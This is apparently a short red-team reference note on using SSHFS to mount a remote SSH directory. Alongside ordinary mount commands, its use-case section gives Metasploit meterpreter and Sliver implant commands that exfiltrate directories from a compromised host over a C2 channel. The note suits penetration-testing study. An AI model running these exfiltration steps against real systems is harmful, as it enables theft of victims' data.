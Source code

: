 # SSHFS

Search Tag(s): #post-exploitation #file-transfer-and-data-exfiltration #ssh #linux

## 01 - Usage

Mount SSH server as a filesystem

```
$ sudo mkdir /mnt/ssh_filesystem && sudo chown $USER:$USER /mnt/ssh_filesystem/

$ sshfs <username>@<IP>:/path/to/remote/directory/ /mnt/ssh_filesystem/ -C [-p <PORT>]
```

To unmount the filesystem

```
$ fusermount -u /mnt/ssh_filesystem/
```

## 02 - Use Cases

### 2.1 - Exfiltration over C2 channel

#### 2.1.1 - Metasploit

```
meterpreter > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/
```

#### 2.1.2 - Sliver

```
sliver (IMPLANT NAME) > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/
```

---
## References

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Cross Platform/C2 Frameworks/Metasploit|Metasploit: Data Exfiltration]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Cross Platform/C2 Frameworks/Sliver|Sliver: Data Exfiltration]]